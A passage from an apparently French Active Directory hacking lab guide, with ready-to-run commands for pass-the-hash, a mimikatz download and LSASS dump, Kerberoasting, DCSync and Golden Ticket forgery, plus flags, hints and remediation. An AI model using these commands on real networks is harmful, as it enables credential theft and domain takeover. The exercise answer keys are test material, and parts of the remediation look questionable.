# Administrator:500:aad3b435b51404eeaad3b435b51404ee:<NTLM_ADMIN_HASH>:::

# Étape 2 : Pass-the-Hash avec wmiexec
impacket-wmiexec \
    -hashes aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0 \
    CORPSHADOW/jdoe@10.10.10.20

# Étape 3 : Une fois le shell obtenu, naviguer dans le système
# C:\> whoami
# corp-shadow\jdoe
# C:\> hostname
# FS01
# C:\> type C:\Flags\flag4.txt
# FLAG{Module10_pth_m3n4o5p6}
```

**Comparaison des méthodes de mouvement latéral :**

| Outil | Port | Mécanisme | Détection | Furtivité |
|-------|------|-----------|-----------|-----------|
| `wmiexec` | 135/RPC + 445/SMB | WMI (Win32_Process.Create) | Événement 4688 (création processus) | ★★★ |
| `psexec` | 445/SMB | Service Windows créé | Événement 7045 (nouveau service) | ★★☆ |
| `smbexec` | 445/SMB | Service via SVCCTL | Événement 7045 (nouveau service) | ★★☆ |

#### 5.4.5 Alternative : Pass-the-Hash avec mimikatz (sur le poste Windows)

```powershell
# Si vous avez un shell sur WS01, utiliser mimikatz

# Étape 1 : Télécharger mimikatz
certutil -urlcache -f http://10.10.10.200/mimikatz.exe mimikatz.exe

# Étape 2 : Dumper les hashes depuis LSASS (nécessite admin local)
.\mimikatz.exe "privilege::debug" "sekurlsa::logonpasswords" "exit"

# Étape 3 : Pass-the-Hash avec mimikatz
.\mimikatz.exe "privilege::debug" "sekurlsa::pth /user:Administrator /domain:corp.shadow.local /ntlm:<NTLM_HASH> /run:powershell.exe" "exit"
```

#### 5.4.6 Flag attendu

```text
FLAG{Module10_pth_m3n4o5p6}
```

#### 5.4.7 Analyse post-exercice — Remédiation

```powershell
# Déployer LAPS (Local Administrator Password Solution)
# LAPS gère des mots de passe administrateur local UNIQUES pour chaque machine

# 1. Installer LAPS sur le domaine
# Télécharger depuis Microsoft : https://www.microsoft.com/en-us/download/details.aspx?id=46899

# 2. Étendre le schéma AD
Import-Module AdmPwd.PS
Update-AdmPwdADSchema

# 3. Déléguer les droits
Set-AdmPwdComputerSelfPermission -OrgUnit "OU=Workstations,DC=corp,DC=shadow,DC=local"

# 4. Déployer le client LAPS sur toutes les machines via GPO

# 5. Configurer la GPO LAPS
# Configuration ordinateur > Modèles d'administration
# > LAPS > Configurer le service LAPS

# Vérifier le déploiement :
Get-ItemProperty "HKLM:\Software\Policies\Microsoft Services\AdmPwd"

# Autres mesures :
# - Activer le filtrage des adresses IP pour l'administration à distance
# - Restreindre l'accès à SMB et RDP aux seules machines autorisées
# - Utiliser JEA (Just Enough Administration) pour restreindre les commandes
```

---

### 5.5 — Flag 5 : Kerberoasting d'un compte de service

#### 5.5.1 Technique et ATT&CK

| Propriété | Valeur |
|-----------|--------|
| **Technique** | Steal or Forge Kerberos Tickets |
| **Sous-technique** | T1558.003 — Kerberoasting |
| **Tactique** | TA0006 — Credential Access |
| **Outil** | `impacket-GetUserSPNs` |
| **Prérequis** | Compte de domaine valide (`jdoe`) ; un compte avec SPN et mot de passe faible |

#### 5.5.2 Explication détaillée

**Kerberoasting** est une technique d'attaque qui cible les **comptes de service Active Directory** possédant un **SPN (Service Principal Name)**.

**Fonctionnement de Kerberos (rappel simplifié) :**



**Attaque Kerberoasting :**

1. L'attaquant (avec un compte valide) demande un **TGS** pour un SPN spécifique
2. Le DC renvoie le TGS chiffré avec le hash du mot de passe du compte de service
3. L'attaquant sauvegarde le TGS et tente de le **casser hors ligne**
4. Si le mot de passe est faible, il est retrouvé en clair

> **Pourquoi ça marche ?**  
> Les comptes de service ont souvent des mots de passe longs mais **faibles** (faciles à retenir). De plus, ils sont rarement changés (contrainte opérationnelle). Le TGS est chiffré avec RC4_HMAC (utilisant le hash NTLM), ce qui le rend cassable avec hashcat ou john.

#### 5.5.3 Commande

```bash
# Étape 1 : Lister les SPNs du domaine
impacket-GetUserSPNs \
    CORPSHADOW/jdoe:'P@ssw0rd!2025' \
    -dc-ip 10.10.10.10

# Décomposition :
#   CORPSHADOW/jdoe:'P@ssw0rd!2025'
#           Compte de domaine avec mot de passe
#   -dc-ip 10.10.10.10
#           Adresse IP du contrôleur de domaine

# Étape 2 : Demander et exporter les TGS
impacket-GetUserSPNs \
    CORPSHADOW/jdoe:'P@ssw0rd!2025' \
    -dc-ip 10.10.10.10 \
    -request \
    -outputfile /tmp/kerberoast_tgs.txt

# Options supplémentaires :
#   -request     : Demander les tickets TGS
#   -outputfile  : Sauvegarder les tickets dans un fichier
#   -target-domain : Si confiance inter-domaine
```

#### 5.5.4 Exécution

```bash
# Étape 1 : Lister les SPNs
impacket-GetUserSPNs \
    CORPSHADOW/jdoe:'P@ssw0rd!2025' \
    -dc-ip 10.10.10.10

# Output attendu :
# ServicePrincipalName              Name          MemberOf  PasswordLastSet      Email
# --------------------------------  ------------  --------  ------------------  -----
# FS01/corp.shadow.local            svc_backup              2024-12-01 10:00:00
# DC01/sql.corp.shadow.local        svc_sql                 2024-11-15 14:30:00

# Étape 2 : Demander le TGS pour svc_backup
impacket-GetUserSPNs \
    CORPSHADOW/jdoe:'P@ssw0rd!2025' \
    -dc-ip 10.10.10.10 \
    -request \
    -outputfile /tmp/kerberoast_tgs.txt

# Output attendu :
# [*] Requesting tickets for SPNs...
# [*] Saving TGS in /tmp/kerberoast_tgs.txt
# $krb5tgs$23$*svc_backup$CORP.SHADOW.LOCAL$CORP.SHADOW.LOCAL/svc_backup*$1234567890abcdef1234567890abcdef$abcdef1234567890abcdef1234567890abcdef12345678

# Étape 3 : Analyser le fichier
cat /tmp/kerberoast_tgs.txt
```

**Cracker le TGS avec john :**

```bash
# Méthode 1 : Avec john et rockyou
john --wordlist=/usr/share/wordlists/rockyou.txt /tmp/kerberoast_tgs.txt

# Méthode 2 : Avec hashcat (si GPU)
hashcat -m 13100 /tmp/kerberoast_tgs.txt /usr/share/wordlists/rockyou.txt --force
# -m 13100 : mode Kerberos 5 TGS-REP (etype 23)

# Étape 4 : Afficher le mot de passe cracké
john --show /tmp/kerberoast_tgs.txt
# Output attendu :
# svc_backup:SvcB@ckup#2025
```

**Cracker le TGS avec un script dédié (tgsrepcrack) :**

```bash
# Alternative : tgsrepcrack.py (nécessite kerberoast toolkit)
python3 /opt/kerberoast/tgsrepcrack.py \
    /usr/share/wordlists/rockyou.txt \
    /tmp/kerberoast_tgs.txt
```

#### 5.5.5 Flag attendu

```text
FLAG{Module10_kerberoast_q7r8s9t0}
```

#### 5.5.6 Analyse post-exercice — Remédiation

```powershell
# 1. Utiliser des comptes gMSA (Group Managed Service Account)
# Les gMSA ont des mots de passe automatiques changés régulièrement

# Créer un gMSA
New-ADServiceAccount `
    -Name "gmsa_backup" `
    -DNSHostName "FS01.corp.shadow.local" `
    -Enabled $true `
    -ServicePrincipalNames "FS01/corp.shadow.local"

# Installer le gMSA sur le serveur
Install-ADServiceAccount -Identity "gmsa_backup"

# 2. Pour les comptes de service classiques :
#    - Mot de passe d'au moins 30 caractères (généré aléatoirement)
#    - Changement obligatoire tous les 30 jours
#    - Activer "User must change password at next logon"
Set-ADUser -Identity svc_backup -PasswordNeverExpires $false

# 3. Surveiller les requêtes Kerberos anormales (trop de TGS requests)
# Active Directory Event ID 4769 (TGS request)
# Rechercher : plusieurs TGS requests pour le même SPN par le même utilisateur

# 4. Activer l'audit Kerberos avancé
auditpol /set /subcategory:"Kerberos Service Ticket Operations" /success:enable

# 5. Utiliser des SPN en AES256 plutôt que RC4
# Vérifier le type de chiffrement supporté :
Get-ADUser -Identity svc_backup -Properties msDS-SupportedEncryptionTypes
# Valeur recommandée : 24 (AES128 + AES256)
#   1  = DES-CBC-CRC
#   2  = DES-CBC-MD5
#   4  = RC4-HMAC
#   8  = AES128-CTS-HMAC-SHA1-96
#   16 = AES256-CTS-HMAC-SHA1-96
#   24 = AES128 + AES256 (recommandé)

Set-ADUser -Identity svc_backup -Replace @{
    "msDS-SupportedEncryptionTypes" = 24
}
```

---

### 5.6 — Flag 6 (Bonus) : DCSync → Golden Ticket → Accès persistant

#### 5.6.1 Technique et ATT&CK

| Propriété | Valeur |
|-----------|--------|
| **Technique** | DCSync (Domain Controller Synchronization) |
| **Sous-technique** | T1003.006 — DCSync |
| **Tactique** | TA0006 — Credential Access |
| **Outil** | `impacket-secretsdump -just-dc` + `impacket-ticketer` |
| **Prérequis** | Compte avec droits de réplication (Admin domaine ou équivalent) |

#### 5.6.2 Explication détaillée

**DCSync** est une technique qui simule le comportement d'un contrôleur de domaine secondaire pour demander la réplication des données d'annuaire. Active Directory utilise le protocole **DRS (Directory Replication Service)** via MS-DRSR ([MS-DRSR] Directory Replication Service) pour synchroniser les bases de données entre DCs.

**Fonctionnement :**

1. Un contrôleur de domaine secondaire (RODC ou RWDC) demande la réplication au DC principal
2. Le protocole DRS utilise des opérations **GetNCChanges** pour répliquer les objets
3. En demandant des attributs spécifiques (notamment `unicodePwd` et `supplementalCredentials`), on peut récupérer les hashes NTLM de **tous les comptes du domaine**, y compris le KRBTGT

**Pour DCSync, les droits requis sont :**

- `Replicating Directory Changes` (DS-Replication-Get-Changes)
- `Replicating Directory Changes All` (DS-Replication-Get-Changes-All)

Ces droits sont généralement détenus par les groupes **Administrateurs du domaine**, **Contrôleurs de domaine** et **Admins d'entreprise**.

**Golden Ticket :**

Une fois le hash du compte **KRBTGT** récupéré via DCSync, on peut forger un **Golden Ticket** :

1. Le KRBTGT est le compte qui chiffre TOUS les TGT du domaine
2. Avec son hash, on peut créer un TGT pour N'IMPORTE QUEL utilisateur
3. Le TGT peut avoir une durée de vie arbitraire (10 ans par exemple)
4. Ce ticket permet un accès persistant même après changement de mot de passe des autres comptes

> **Pourquoi ça marche ?**  
> Le protocole DRS est légitime et nécessaire au fonctionnement d'Active Directory. Il est difficile de le bloquer sans casser la réplication. La seule protection efficace est de restreindre les droits de réplication aux seuls comptes autorisés (ce qui est normalement le cas — un compte utilisateur standard ne peut pas DCSync).

#### 5.6.3 Commande DCSync

```bash
# Étape 1 : DCSync — extraire tous les hashes du domaine
impacket-secretsdump \
    CORPSHADOW/Administrator@10.10.10.10 \
    -just-dc

# Décomposition :
#   CORPSHADOW/Administrator@10.10.10.10
#           Compte admin (obtenu via escalade précédente)
#   -just-dc : Extraire uniquement les données du DC (NTDS.dit)
```

**Variantes :**

```bash
# Extraire uniquement le hash KRBTGT
impacket-secretsdump \
    CORPSHADOW/Administrator@10.10.10.10 \
    -just-dc \
    | grep krbtgt

# Extraire le hash d'un utilisateur spécifique
impacket-secretsdump \
    CORPSHADOW/Administrator@10.10.10.10 \
    -just-dc-user jdoe

# Utiliser Pass-the-Hash pour DCSync (si on a le hash de l'admin)
impacket-secretsdump \
    -hashes :<NTLM_ADMIN_HASH> \
    CORPSHADOW/Administrator@10.10.10.10 \
    -just-dc
```

#### 5.6.4 Commande Golden Ticket

```bash
# Étape 2 : Forger un Golden Ticket avec impacket-ticketer
impacket-ticketer \
    -nthash <KRBTGT_NT_HASH> \
    -domain-sid <DOMAIN_SID> \
    -domain corp.shadow.local \
    -groups 512,519,518 \
    Administrator

# Décomposition :
#   -nthash <KRBTGT_NT_HASH>
#           Hash NTLM du compte KRBTGT (récupéré via DCSync)
#   -domain-sid <DOMAIN_SID>
#           SID du domaine (ex: S-1-5-21-1234567890-1234567890-1234567890)
#           Récupérable via : `impacket-lookupsid CORPSHADOW/jdoe@10.10.10.10`
#   -domain corp.shadow.local
#           Nom du domaine
#   -groups 512,519,518
#           RIDs des groupes :
#           512 = Administrateurs du domaine
#           518 = Admins du schéma
#           519 = Admins d'entreprise
#   Administrator
#           Nom d'utilisateur pour lequel le ticket est forgé

# Étape 3 : Exporter le ticket dans la session courante
export KRB5CCNAME=/tmp/administrator.ccache

# Étape 4 : Utiliser le ticket (ex: accès SMB au DC)
impacket-smbexec \
    -k \
    -no-pass \
    CORPSHADOW/Administrator@DC01.corp.shadow.local

# -k        : Utiliser l'authentification Kerberos (via le ticket cache)
# -no-pass  : Pas de mot de passe (on utilise le ticket)
```

#### 5.6.5 Exécution complète

```bash
# Étape 1 : Récupérer le SID du domaine
impacket-lookupsid \
    CORPSHADOW/jdoe:'P@ssw0rd!2025'@10.10.10.10 \
    | grep "Domain SID"

# Output attendu :
# Domain SID: S-1-5-21-1234567890-1234567890-1234567890

# Étape 2 : DCSync
impacket-secretsdump \
    CORPSHADOW/Administrator@10.10.10.10 \
    -just-dc

# Output attendu (extrait) :
# [*] Dumping Domain Credentials (domain:uid:rid:lmhash:nthash)
# [*] Using the DRSUAPI to get NTDS secrets
# Administrator:500:aad3b435b51404eeaad3b435b51404ee:<ADMIN_NT_HASH>:::
# krbtgt:502:aad3b435b51404eeaad3b435b51404ee:<KRBTGT_NT_HASH>:::
# CORPSHADOW\jdoe:1001:aad3b435b51404eeaad3b435b51404ee:<JDOE_NT_HASH>:::
# CORPSHADOW\svc_backup:1002:aad3b435b51404eeaad3b435b51404ee:<SVC_BACKUP_HASH>:::
# CORPSHADOW\svc_sql:1003:aad3b435b51404eeaad3b435b51404ee:<SVC_SQL_HASH>:::
# ...
# [*] Dumping Kerberos keys (krbtgt)
# krbtgt:aes256-cts-hmac-sha1-96:<AES256_KEY>
# krbtgt:aes128-cts-hmac-sha1-96:<AES128_KEY>

# Étape 3 : Forger le Golden Ticket
KRBTGT_HASH="<KRBTGT_NT_HASH>"
DOMAIN_SID="S-1-5-21-1234567890-1234567890-1234567890"

impacket-ticketer \
    -nthash "$KRBTGT_HASH" \
    -domain-sid "$DOMAIN_SID" \
    -domain corp.shadow.local \
    -groups 512,519,518 \
    Administrator

# Output attendu :
# Impacket v0.12.0 - Copyright 2022 Fortra
# [*] Creating golden ticket for Administrator@corp.shadow.local
# [*] Ticket saved to Administrator.ccache

# Étape 4 : Exporter et utiliser le ticket
export KRB5CCNAME=/tmp/administrator.ccache

# Vérifier le ticket
klist
# Ticket cache: FILE:/tmp/administrator.ccache
# Default principal: Administrator@corp.shadow.local
# Valid starting: 2025-05-30 10:00:00
# Expires: 2035-05-28 10:00:00

# Étape 5 : Accès persistant au DC
impacket-smbexec \
    -k \
    -no-pass \
    CORPSHADOW/Administrator@DC01.corp.shadow.local

# Shell sur DC01 :
# C:\> whoami
# corp-shadow\administrator
# C:\> type C:\Flags\flag6.txt
# FLAG{Module10_dcsync_u1v2w3x4}
```

#### 5.6.6 Flag attendu

```text
FLAG{Module10_dcsync_u1v2w3x4}
```

#### 5.6.7 Analyse post-exercice — Remédiation

```powershell
# 1. Surveiller les événements DRS (réplication)
# Événement 4662 : opération sur un objet Active Directory
# Rechercher l'opération "GetNCChanges" (DS-Replication-Get-Changes)
# 
# Événement 5141 : réplication d'annuaire

# Activer l'audit avancé pour les services d'annuaire
auditpol /set /subcategory:"Directory Service Access" /success:enable /failure:enable
auditpol /set /subcategory:"Directory Service Changes" /success:enable /failure:enable

# 2. Restreindre les droits de réplication
# Vérifier les comptes avec droits de réplication :
Get-ADObject `
    -SearchBase "CN=Configuration,DC=corp,DC=shadow,DC=local" `
    -Filter {ObjectClass -eq "user"} `
    -Properties * | `
    Where-Object { $_.'msDS-NeverRevealGroup' -ne $null }

# Utiliser les groupes RODC (Read-Only Domain Controller) protégés
# pour restreindre les comptes pouvant répliquer

# 3. Protéger le compte KRBTGT
# Changer le mot de passe KRBTGT régulièrement (2x de suite, à 24h d'intervalle)
# ATTENTION : changer KRBTGT invalide tous les TGT existants

# Premier changement :
Reset-ADAccountPassword -Identity krbtgt -Reset -NewPassword (ConvertTo-SecureString "NewP@ss123!" -AsPlainText -Force)

# 4. Utiliser des comptes de service protégés (Group Managed Service Accounts)
# 5. Déployer Microsoft Defender for Identity (Azure ATP)
#    Il détecte les tentatives DCSync anormales

# 6. Activer le mode protection supplémentaire pour l'authentification
# (Extended Protection for Authentication)
Set-ItemProperty `
    -Path "HKLM:\SYSTEM\CurrentControlSet\Control\LSA" `
    -Name "SuppressExtendedProtection" `
    -Value 0

# 7. Configurer le pare-feu pour limiter la réplication aux DCs autorisés
# (Règle de trafic entrant RPC dynamique)
```

---

## 6. Workflow ATT&CK complet

### 6.1 Chaîne d'attaque (Kill Chain)



### 6.2 Carte mentale des dépendances



### 6.3 Tableau de bord ATT&CK

| Phase ATT&CK | ID | Technique | Flag | Outil |
|-------------|----|-----------|------|-------|
| TA0043 — Reconnaissance | T1087.002 | Domain Account Discovery | F1 | bloodhound-python |
| TA0006 — Credential Access | T1557.001 | LLMNR/NBT-NS Poisoning | F2 | Responder |
| TA0006 — Credential Access | T1110.002 | Password Cracking | F2 | john |
| TA0006 — Credential Access | T1003.002 | SAM Dumping | F3 | impacket-secretsdump |
| TA0008 — Lateral Movement | T1550.002 | Pass-the-Hash | F4 | impacket-wmiexec |
| TA0006 — Credential Access | T1558.003 | Kerberoasting | F5 | impacket-GetUserSPNs |
| TA0006 — Credential Access | T1003.006 | DCSync | F6 | impacket-secretsdump -just-dc |
| TA0003 — Persistence | T1558.001 | Golden Ticket | F6 | impacket-ticketer |

---

## 7. Indices

### 7.1 Indice 1 — Flag 1 (BloodHound)

<details>
<summary>Cliquer pour révéler l'indice</summary>

**Indice :** BloodHound utilise LDAP pour interroger l'annuaire. LDAP écoute sur le port 389. Si vous ne spécifiez pas d'utilisateur, l'outil tente une connexion anonyme.

**Commande à vérifier :**

```bash
# Vérifier que le port LDAP est ouvert
nmap -p 389 10.10.10.10

# Lister les utilisateurs avec ldapsearch (alternative manuelle)
ldapsearch -x -H ldap://10.10.10.10 -b "DC=corp,DC=shadow,DC=local" -s sub "(objectClass=user)" sAMAccountName

# Pour BloodHound, utiliser l'option -u avec un compte vide
bloodhound-python -d corp.shadow.local -ns 10.10.10.10 -c all -u '' -p ''
```

</details>

### 7.2 Indice 2 — Flag 2 (Responder)

<details>
<summary>Cliquer pour révéler l'indice</summary>

**Indice :** LLMNR est activé par défaut sur Windows 11. Pour déclencher une requête LLMNR, il faut qu'un utilisateur tente de se connecter à une ressource avec un nom qui n'existe pas. Sur le réseau, un script simule cette action. Soyez patient et écoutez le trafic.

**Astuce technique :** Vérifiez que votre interface est en mode promiscuous :

```bash
# Mettre l'interface en mode promiscuous
sudo ip link set eth0 promisc on

# Vérifier le trafic LLMNR (port UDP 5355)
sudo tcpdump -i eth0 udp port 5355 -n

# Lancer Responder en mode silencieux d'abord pour observer
sudo responder -I eth0 -v
```

Les logs sont stockés dans `/usr/share/responder/logs/`. Le hash commence par le format : `jdoe::CORPSHADOW:...`

</details>

### 7.3 Indice 3 — Flag 3 (secretsdump)

<details>
<summary>Cliquer pour révéler l'indice</summary>

**Indice :** secretsdump fait partie d'Impacket. Pour lancer le dump, vous avez besoin d'identifiants valides. Avec le mot de passe de `jdoe`, vous pouvez extraire les hashes SAM de n'importe quelle machine du domaine. Mais toutes les machines n'ont pas le même accès.

**Questions à vous poser :**
- Quelle machine cibler ?
- Le compte `jdoe` est-il administrateur local sur les machines ?
- Sinon, comment contourner l'UAC distant ?

**Solution possible :** Visez le serveur de fichiers FS01 (10.10.10.20). Les serveurs ont souvent une configuration moins restrictive.

```bash
# Tester l'accès SMB
smbclient -L //10.10.10.20 -U CORPSHADOW/jdoe
```

</details>

### 7.4 Indice 4 — Flag 4 (Pass-the-Hash)

<details>
<summary>Cliquer pour révéler l'indice</summary>

**Indice :** Le Pass-the-Hash nécessite un hash NTLM valide. Vous avez extrait de nombreux hashes avec secretsdump. Parmi eux, certains hashs correspondent à des comptes locaux qui pourraient être réutilisés.

**Rappel de la sortie secretsdump :**

```
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrator:500:aad3b435b51404eeaad3b435b51404ee:<NTLM_HASH>:::
```

- Le RID 500 est TOUJOURS l'administrateur intégré
- Ce hash est peut-être le MÊME sur WS01 et FS01
- Utilisez le format `aad3b435b51404eeaad3b435b51404ee:<NT_HASH>` pour le paramètre `-hashes`

```bash
# Tester le hash de l'admin local
impacket-wmiexec -hashes aad3b435b51404eeaad3b435b51404ee:<NTLM_HASH> Administrateur@10.10.10.20

# Si ça ne marche pas, essayez avec jdoe (peut-être admin local ?)
impacket-wmiexec -hashes :<JDOE_NT_HASH> CORPSHADOW/jdoe@10.10.10.20
```

</details>

### 7.5 Indice 5 — Flag 5 (Kerberoasting)

<details>
<summary>Cliquer pour révéler l'indice</summary>

**Indice :** Kerberoasting nécessite de connaître les SPNs du domaine. La commande `GetUserSPNs` liste tous les comptes avec SPN associé. Si vous ne voyez aucun SPN, vérifiez votre connexion au DC.

**Dépannage :**

```bash
# Vérifier la résolution DNS
nslookup corp.shadow.local 10.10.10.10

# Vérifier l'authentification Kerberos
kvno -k -t /dev/null CORPSHADOW/jdoe@CORP.SHADOW.LOCAL

# Tester la connexion LDAP
ldapsearch -H ldap://10.10.10.10 -D "CORPSHADOW\jdoe" -w 'P@ssw0rd!2025' -b "DC=corp,DC=shadow,DC=local" "(objectClass=user)" servicePrincipalName
```

**Pour le crack :** Le mot de passe du service est dans le dictionnaire `rockyou.txt`. Utilisez le mode hashcat 13100 pour Kerberos 5 TGS-REP.

</details>

### 7.6 Indice 6 — Flag 6 (DCSync + Golden Ticket)

<details>
<summary>Cliquer pour révéler l'indice</summary>

**Indice :** DCSync nécessite un compte avec des privilèges élevés dans le domaine. L'administrateur du domaine a ces droits. Pour le Golden Ticket, vous avez besoin de deux choses :

1. **Le hash NTLM de KRBTGT** (récupéré via DCSync)
2. **Le SID du domaine** (récupéré via `lookupsid`)

```bash
# Si DCSync échoue, vérifiez les droits de votre compte
# Il faut que le compte soit membre de "Domain Admins"

# Vérifier les groupes de l'utilisateur
net rpc group members "Domain Admins" -W corp.shadow.local -I 10.10.10.10 -U jdoe

# Alternative : si vous avez le hash de l'admin, faites PtH vers le DC
# puis DCSync depuis le DC lui-même
impacket-wmiexec -hashes :<ADMIN_HASH> CORPSHADOW/Administrator@10.10.10.10
```

**Pour le Golden Ticket :** Le SID du domaine commence par `S-1-5-21-`. Utilisez `lookupsid` pour le trouver :

```bash
impacket-lookupsid CORPSHADOW/jdoe:'P@ssw0rd!2025'@10.10.10.10
```

</details>

---

## 8. Template de documentation ATT&CK

### 8.1 Tableau récapitulatif

| Flag | Technique ATT&CK | ID ATT&CK | Outil | Payload / Commande | Impact | Remédiation |
|------|------------------|-----------|-------|--------------------|--------|-------------|
| **F1** | Domain Account Discovery | T1087.002 | bloodhound-python | `bloodhound-python -d corp.shadow.local -ns 10.10.10.10 -c all` | Cartographie complète du domaine → identification des cibles | Restreindre l'accès LDAP anonyme |
| **F2** | LLMNR/NBT-NS Poisoning | T1557.001 | Responder | `responder -I eth0 -rdwv` | Capture du hash NTLMv2 de l'utilisateur | Désactiver LLMNR via GPO |
| **F2** | Password Cracking | T1110.002 | john / hashcat | `john --wordlist=rockyou.txt hash.txt` | Mot de passe utilisateur en clair | Politique de mot de passe fort + MFA |
| **F3** | SAM Dumping | T1003.002 | impacket-secretsdump | `impacket-secretsdump CORPSHADOW/jdoe:P@ssw0rd!2025@10.10.10.20` | Hashes des comptes locaux et domaine | Credential Guard + LAPS |
| **F4** | Pass-the-Hash | T1550.002 | impacket-wmiexec | `impacket-wmiexec -hashes :<NT_HASH> user@target` | Shell sur machine distante avec droits élevés | LAPS + Mots de passe uniques |
| **F5** | Kerberoasting | T1558.003 | impacket-GetUserSPNs | `impacket-GetUserSPNs domain/user:pass -dc-ip DC -request` | Mot de passe du compte de service en clair | Comptes gMSA + AES256 |
| **F6** | DCSync | T1003.006 | impacket-secretsdump | `impacket-secretsdump admin@DC -just-dc` | Tous les hashes du domaine (dont KRBTGT) | Surveiller événements 4662 + droits de réplication |
| **F6** | Golden Ticket | T1558.001 | impacket-ticketer | `impacket-ticketer -nthash <KRBTGT> -domain-sid <SID> -domain corp.shadow.local Administrator` | Accès persistant à tout le domaine | Rotation KRBTGT + détection |

### 8.2 Fiche de documentation détaillée (à remplir par l'étudiant)

```markdown
## Fiche de documentation flag ___ (nom : ___)

### Informations générales
- **Date :** ___/___/2025
- **Étudiant :** ___________
- **Flag :** ___
- **Temps passé :** ___ minutes

### Technique ATT&CK
- **ID :** T______
- **Nom :** __________________________________
- **Tactique :** TA______ — __________________
- **Plateforme :** Windows / Linux / AD

### Outils utilisés
- **Outil principal :** ___________
- **Version :** ___________
- **Source :** GitHub / Kali / Autre

### Commande exacte
```bash

```

### Explication
_Pourquoi cette technique fonctionne-t-elle ?_
_______________________________________________
_______________________________________________
_______________________________________________

### Résultat attendu
```
FLAG{...}
```

### Impact sur le client
- **Données compromises :** _________________________________
- **Niveau de criticité :** Critique / Élevé / Moyen / Faible
- **Recommandation NIS2 :** _________________________________

### Remédiation proposée
```powershell
# Code de correction

```

### Références
- MITRE ATT&CK : https://attack.mitre.org/techniques/T___/
- Documentation Microsoft : https://docs.microsoft.com/...
- Outil : https://github.com/...

### Notes personnelles
_______________________________________________
```
---

## 9. Annexes : Corrections et explications

### 9.1 Pourquoi chaque vulnérabilité existe

#### 9.1.1 LLMNR/NBT-NS activé (Flag 2)

**Cause racine :** Microsoft active LLMNR par défaut sur Windows Vista et versions ultérieures pour faciliter la résolution de noms sur les petits réseaux sans DNS. NBT-NS (NetBIOS Name Service) est un héritage de Windows NT. Ces protocoles ne sont pas nécessaires dans un environnement avec DNS Active Directory.

**Risque :** Un attaquant sur le même segment réseau peut empoisonner les réponses et capturer les hashes NTLMv2.

**Solution :** Désactiver LLMNR via GPO et NBT-NS via les paramètres réseau.

#### 9.1.2 Accès SMB sans restriction (Flag 3)

**Cause racine :** Par défaut, Windows autorise les connexions SMB anonymes pour certaines fonctionnalités (partages IPC$, etc.). Le service Remote Registry (permettant l'accès distant aux ruches de registre) est activé par défaut sur les serveurs Windows.

**Risque :** Un attaquant avec un compte utilisateur standard peut extraire les hashes SAM/LSA distants via le registre.

**Solution :** Désactiver le service Remote Registry lorsqu'il n'est pas nécessaire, restreindre l'accès via le pare-feu Windows, activer Credential Guard.

#### 9.1.3 Même administrateur local sur toutes les machines (Flag 4)

**Cause racine :** Absence de LAPS (Local Administrator Password Solution). Les administrateurs configurent souvent le même mot de passe admin local sur toutes les machines pour faciliter la gestion.

**Risque :** Récupération du hash admin sur une machine → compromission de toutes les machines du domaine ayant le même hash.

**Solution :** Déployer LAPS pour gérer des mots de passe uniques par machine.

#### 9.1.4 Compte de service avec SPN et mot de passe faible (Flag 5)

**Cause racine :** Les comptes de service sont souvent créés avec des mots de passe « mémorisables » (donc faibles) et l'option `PasswordNeverExpires` est activée pour éviter les interruptions de service.

**Risque :** Demande d'un TGS pour le SPN → ticket chiffré avec le hash du service → cassé hors ligne.

**Solution :** Utiliser des comptes gMSA (mots de passe gérés automatiquement), ou au minimum des mots de passe de 30+ caractères et un changement régulier.

#### 9.1.5 Droits de réplication non restreints (Flag 6)

**Cause racine :** Les droits de réplication DS (DS-Replication-Get-Changes, DS-Replication-Get-Changes-All) sont accordés aux groupes par défaut. Un compte admin compromis peut les utiliser.

**Risque :** Extraction de la base NTDS.dit contenant tous les hashes du domaine.

**Solution :** Surveiller les événements 4662 (accès aux objets AD), restreindre les droits de réplication, utiliser RODC dans les sites à risque.

### 9.2 Scripts PowerShell de correction

#### 9.2.1 Script de durcissement complet

```powershell
<#
.SYNOPSIS
    Script de durcissement Active Directory pour CorpShadow
    Conforme aux recommandations ANSSI et NIS2
.DESCRIPTION
    Ce script applique les correctifs recommandés suite au test
    de pénétration du module 10. Il doit être exécuté avec
    les droits d'administrateur du domaine.
.NOTES
    Auteur : Red Team CorpShadow
    Version : 1.0
    Date : 2025-05-30
#>

# Vérifier que le script est exécuté avec les droits admin
$isAdmin = [Security.Principal.WindowsPrincipal]::new(
    [Security.Principal.WindowsIdentity]::GetCurrent()
).IsInRole([Security.Principal.WindowsBuiltInRole]::Administrator)

if (-not $isAdmin) {
    Write-Error "Ce script doit être exécuté en tant qu'Administrateur"
    exit 1
}

Write-Host "=== Début du durcissement AD CorpShadow ===" -ForegroundColor Cyan

# ============================================
# 1. Désactiver LLMNR
# ============================================
Write-Host "[1/8] Désactivation de LLMNR..." -ForegroundColor Yellow
try {
    $llmnrPath = "HKLM:\SOFTWARE\Policies\Microsoft\Windows NT\DNSClient"
    if (-not (Test-Path $llmnrPath)) {
        New-Item -Path $llmnrPath -Force | Out-Null
    }
    Set-ItemProperty -Path $llmnrPath -Name "EnableMulticast" -Value 0
    Write-Host "  ✓ LLMNR désactivé" -ForegroundColor Green
} catch {
    Write-Error "  ✗ Échec : $_"
}

# ============================================
# 2. Désactiver NBT-NS (via la carte réseau)
# ============================================
Write-Host "[2/8] Désactivation de NBT-NS..." -ForegroundColor Yellow
try {
    $adapters = Get-WmiObject Win32_NetworkAdapterConfiguration | Where-Object { $_.IPEnabled -eq $true }
    foreach ($adapter in $adapters) {
        $result = $adapter.SetTcpipNetbios(2)  # 2 = Disable NetBIOS over TCP/IP
        if ($result.ReturnValue -eq 0) {
            Write-Host "  ✓ NBT-NS désactivé sur $($adapter.Description)" -ForegroundColor Green
        } else {
            Write-Warning "  ⚠ Échec sur $($adapter.Description) (code: $($result.ReturnValue))"
        }
    }
} catch {
    Write-Error "  ✗ Échec : $_"
}

# ============================================
# 3. Activer SMB Signing (protection anti-relay)
# ============================================
Write-Host "[3/8] Activation de SMB Signing..." -ForegroundColor Yellow
try {
    Set-ItemProperty -Path "HKLM:\SYSTEM\CurrentControlSet\Services\LanmanServer\Parameters" `
        -Name "RequireSecuritySignature" -Value 1
    Set-ItemProperty -Path "HKLM:\SYSTEM\CurrentControlSet\Services\LanmanWorkstation\Parameters" `
        -Name "RequireSecuritySignature" -Value 1
    Set-ItemProperty -Path "HKLM:\SYSTEM\CurrentControlSet\Services\LanmanServer\Parameters" `
